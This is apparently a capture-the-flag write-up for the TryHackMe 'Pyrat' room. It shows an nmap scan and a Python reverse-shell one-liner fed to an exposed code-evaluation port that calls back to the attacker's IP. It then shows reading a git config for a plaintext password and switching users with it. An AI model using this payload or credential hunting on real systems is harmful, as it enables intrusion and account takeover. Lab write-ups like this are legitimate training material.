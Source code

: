 <code>
https://tryhackme.com/r/room/pyrat
  
**Enumeration**

┌──(duke㉿kali)-[~]
└─$ nmap -A -Pn  10.10.4.202   
Starting Nmap 7.92 ( https://nmap.org ) at 2024-10-10 02:53 CDT
Nmap scan report for 10.10.4.202
Host is up (0.034s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
|   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
|_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
8000/tcp open  http-alt SimpleHTTP/0.6 Python/3.11.2
|_http-server-header: SimpleHTTP/0.6 Python/3.11.2
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
|     source code string cannot contain null bytes
|   FourOhFourRequest, LPDString, SIPOptions: 
|     invalid syntax (<string>, line 1)
|   GetRequest: 
|     name 'GET' is not defined
|   HTTPOptions, RTSPRequest: 
|     name 'OPTIONS' is not defined
|   Help: 
|_    name 'HELP' is not defined
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.92%I=7%D=10/10%Time=6707880C%P=x86_64-pc-linux-gnu%r(G

**http-server-header: SimpleHTTP/0.6 Python/3.11.2**

┌──(duke㉿kali)-[~]
└─$ nc pyrat.thm 8000                                                                                                                                                                                   
import
invalid syntax (<string>, line 1)
dsd
name 'dsd' is not defined
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.30.202",5002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

**get reverse shell**
┌──(duke㉿kali)-[~]
└─$ nc -lvnp 5002                                                   
listening on [any] 5002 ...
connect to [10.9.30.202] from (UNKNOWN) [10.10.4.202] 57226
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


/var/spool/mail/think

www-data@Pyrat:/var/spool/mail$ cat think
cat think
From root@pyrat  Thu Jun 15 09:08:55 2023
Return-Path: <root@pyrat>
X-Original-To: think@pyrat
Delivered-To: think@pyrat
Received: by pyrat.localdomain (Postfix, from userid 0)
        id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
Subject: Hello
To: <think@pyrat>
X-Mailer: mail (GNU Mailutils 3.7)
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)
From: Dbile Admen <root@pyrat>

Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
www-data@Pyrat:/var/spool/mail$ 

**Found Git project**

www-data@Pyrat:/opt/dev/.git$ grep -r "password" .
grep -r "password" .
./config:       password = _TH1NKINGPirate$_
www-data@Pyrat:/opt/dev/.git$ cat ./config
cat ./config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[user]
        name = Jose Mario
        email = josemlwdf@github.com

[credential]
        helper = cache --timeout=3600

[credential "https://github.com"]
        username = think
        password = _TH1NKINGPirate$_

**user Think granted**
www-data@Pyrat:/opt/dev/.git$ su think
su think
Password: _TH1NKINGPirate$_

think@Pyrat:/opt/dev/.git$ id
id
uid=1000(think) gid=1000(think) groups=1000(think)
think@Pyrat:/opt/dev/.git$ 

make some intel/osint about josemlwdf@github.com
found: https://github.com/josemlwdf/PyRAT

def get_admin(client_socket):
    global admins

    uid = os.getuid()
    if (uid != 0):
        send_data(client_socket, "Start a fresh client to begin.")
        return

    password = 'testpass'

    for i in range(0, 3):
        # Ask for Password
        send_data(client_socket, "Password:")

        # Receive data from the client
        try:
            data = client_socket.recv(1024).decode("utf-8")
        except Exception as e:
            # Send the exception message back to the client
            send_data(client_socket, e)
            pass
        finally:
            # Reset stdout to the default
            sys.stdout = sys.__stdout__

        if data.strip() == password:
            admins.append(str(client_socket))
            send_data(client_socket, 'Welcome Admin!!! Type "shell" to begin')
            break

use fusser to crack password

  
<\code>
